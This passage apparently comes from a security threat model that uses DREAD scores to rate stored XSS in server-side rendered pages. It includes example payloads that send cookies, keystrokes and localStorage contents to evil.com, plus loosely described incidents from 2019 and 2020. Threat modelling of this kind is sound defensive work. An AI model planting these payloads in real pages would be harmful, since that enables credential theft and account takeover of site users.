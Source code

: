 **Example Attack Payloads:**
```html
<!-- Stored in database title field -->
<script>
  // Steal authentication cookies
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: 'cookies=' + document.cookie
  });
</script>

<!-- In blog post content -->
<img src="x" onerror="
  // Keylogger injection
  document.addEventListener('keypress', (e) => {
    fetch('https://evil.com/keylog', {
      method: 'POST',
      body: e.key
    });
  });
" />

<!-- JSON context breakout in authorBio -->
"; fetch('https://evil.com/steal?data=' + btoa(JSON.stringify(window.localStorage))); //
```

**SSR-Specific Attack Characteristics:**
- **Persistent**: Affects all users visiting the pre-rendered page
- **Trusted context**: Appears as legitimate server-generated content
- **Cache amplification**: Malicious content gets cached by CDNs and browsers
- **SEO poisoning**: Search engines may index malicious content

**Real-world Impact:**
- **2019**: Major e-commerce platform had XSS in SSR product pages affecting thousands of customers
- **2020**: News website's SSR commenting system was exploited to inject cryptocurrency miners
- Can lead to mass account compromise and large-scale data theft

| Score | Rationale |
|-------|-----------|
| **Damage** | 10 | XSS in SSR affects all users receiving the pre-rendered content |
| **Reproducibility** | 8 | Depends on server-side input validation |
| **Exploitability** | 9 | Similar to client-side XSS but potentially more impactful |
| **Affected Users** | 10 | All users receiving SSR content |
| **Discoverability** | 9 | SSR output can be inspected in page source |

**DREAD Score: 46/50 - CRITICAL**

**Threat #11: Server-side information disclosure**
- **Category**: Information Disclosure
- **Description**: Sensitive server-side information being exposed in the SSR output, including database connection strings, API keys, internal error messages, file paths, environment variables, and other confidential data that should remain server-side only. This occurs when server-side rendering processes fail to properly sanitize or filter data before including it in the HTML response.
